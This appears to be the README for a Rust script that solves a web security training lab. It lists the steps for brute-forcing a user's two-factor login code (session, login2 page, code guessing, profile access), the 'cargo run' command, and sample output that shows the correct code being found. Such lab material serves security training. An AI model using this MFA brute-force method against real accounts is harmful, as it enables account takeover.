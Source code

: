 ## Hack Steps

1. Obtain a valid session
2. Fetch the login2 page
3. Start brute forcing the mfa-code of carlos
4. Fetch carlos profile

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

## Expected Output

```
⦗1⦘ Obtaining a valid session.. OK
⦗2⦘ Fetching the login2 page.. OK
⦗3⦘ Start brute forcing the mfa-code of carlos..
❯❯ Elapsed: 2 minutes || Trying (1400/10000) 1124 => Wrong
❯❯ Elapsed: 2 minutes || Trying (1467/10000) 0164 => Wrong
🗹 Correct Code: 1468
⦗4⦘ Fetching carlos profile.. OK
🗹 Finished in: 3 minutes
🗹 The lab should be marked now as solved
```
